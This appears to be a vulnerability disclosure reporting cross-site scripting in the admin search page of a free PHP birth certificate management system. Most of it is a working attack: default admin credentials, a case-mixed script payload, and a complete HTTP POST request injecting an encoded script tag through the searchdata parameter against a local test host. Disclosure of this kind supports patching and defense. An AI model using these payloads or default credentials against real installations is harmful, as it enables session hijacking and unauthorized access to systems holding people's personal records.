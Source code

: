 # Online Birth Certificate Management System - XSS

A vulnerability classified as problematic was found in Online Birth Certificate Management System . This vulnerability affects unknown code. The manipulation of the argument search.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/admin/search.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/search.php has XSS

> Payload: <sCrIpT>alert(1)</sCrIpT>

XSS because `$sdata` can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/3.png)

## Payload

```sql
POST /CVE/OBCMS/admin/search.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 56
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/search.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

search=&searchdata=%3CScRiPt%3Edspqgvzxyj%3C%2FsCrIpT%3E
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/5.png)